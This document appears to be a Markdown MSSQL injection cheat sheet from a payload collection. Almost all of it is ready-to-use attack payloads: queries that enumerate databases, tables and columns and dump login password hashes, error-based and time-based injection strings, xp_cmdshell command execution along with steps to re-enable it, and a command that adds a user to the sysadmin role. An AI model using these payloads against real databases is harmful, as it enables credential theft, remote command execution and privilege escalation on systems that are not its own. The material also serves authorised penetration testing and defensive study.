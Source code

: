 # MSSQL Injection

## MSSQL version
```
SELECT @@version
```

## MSSQL database name
```
SELECT DB_NAME()
```

## MSSQL List Databases
```
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL List Column
```
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable
```

## MSSQL List Tables
```
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable
```


## MSSQL User Password
```
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins 
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL Error based
```
For integer inputs : convert(int,@@version)
For string inputs   : ' + convert(int,@@version) + '
```

## MSSQL Time based
```
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--
```

## MSSQL Command execution
```
EXEC xp_cmdshell "net user";           
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1'
```
If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

## MSSQL Make user DBA (DB admin)
```
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## Thanks to
 * [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
 * [Sqlinjectionwiki - MSSQL](http://www.sqlinjectionwiki.com/categories/1/mssql-sql-injection-cheat-sheet/)
